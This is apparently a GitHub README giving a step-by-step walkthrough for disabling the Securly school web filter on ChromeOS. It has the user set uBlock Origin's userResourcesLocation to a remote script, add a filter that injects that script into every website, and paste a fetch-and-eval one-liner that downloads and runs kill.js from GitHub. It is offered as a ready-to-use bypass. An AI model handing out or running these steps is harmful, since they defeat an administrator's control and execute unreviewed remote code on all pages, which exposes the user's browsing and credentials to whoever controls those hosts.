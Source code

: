 
# I hate Securly



Fill with Securly bypasses and such and other chrome os bypasses because god forbid I use a computer for being a computer!


## SECURLY BYPASS UNBLOCK ORIGIN (Made By Zek-c Modified by Me)


[Tutorial On my Site!](https://jacksdamnserver.site/bypass/UnBlockOrigin/)
But if you dont wanna

1. Download uBlock Origin if not installed.

![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome.png)

2. Go to the settings in uBlock Origin.

![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome2.png)

3. Enable Advanced settings and click the gears.
   
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome3.png)

4. Change ```userResourcesLocation``` to ```userResourcesLocation https://jacksdamnserver.site/exec.js``` and hit apply.
   
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome4.png)

5.Now go back and click My Filters and set it to ```*##`+js(execute_script.js)``` and apply.

![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome5.png)

6. Go to https://securly.com

7.Copy this Javascript ```fetch('https://raw.githubusercontent.com/ThisJackRN/i-hate-securly/main/kill.js').then(r => r.text()).then(r => eval(r))``` 

8. Do the keybind Ctrl+Shift+~ to show the eval prompt and place the copied code into the eval prompt and hit enter!
![Logo](https://jacksdamnserver.site/bypass/UnBlockOrigin/chrome7.png)
9. Click the off button and you are done.
